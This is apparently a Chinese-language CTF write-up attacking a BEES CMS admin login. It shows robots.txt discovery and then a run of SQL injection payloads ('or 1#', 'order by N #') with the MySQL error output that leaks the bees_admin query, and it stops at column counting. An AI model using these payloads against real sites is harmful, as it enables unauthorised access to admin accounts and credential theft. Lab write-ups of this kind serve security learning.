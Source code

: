 打开网站扫一遍

发现了admin和robots.txt

打开robos.txt找到了flag的文件名，得到第一个flag

打开admin界面幸运的发现可以注入

user='&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' limit 0,1' at line 1<br>sql:select

user='#&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

输入的密码不正确

user='&password=123456'&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' limit 0,1' at line 1<br>sql:select

user=' or 1#&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

输入的密码不正确

user=' or 1#&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

user=' and 0 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '0 #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name=''0 #' limit 0,1

user=' or (1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

输入的密码不正确

user=' order by 1 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

输入的密码不正确

user=' order by 5 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

输入的密码不正确

user=' order by 20 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败Unknown column '20' in 'order clause'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='' order by 20 #' limit 0,1</p><p

user=' order by 10 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败Unknown column '10' in 'order clause'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='' order by 10 #' limit 0,1</p><p

user=' order by 7 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败Unknown column '7' in 'order clause'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='' order by 7 #' limit 0,1</p><p

user=' order by 6 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败Unknown column '6' in 'order clause'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='' order by 6 #' limit 0,1</p><p
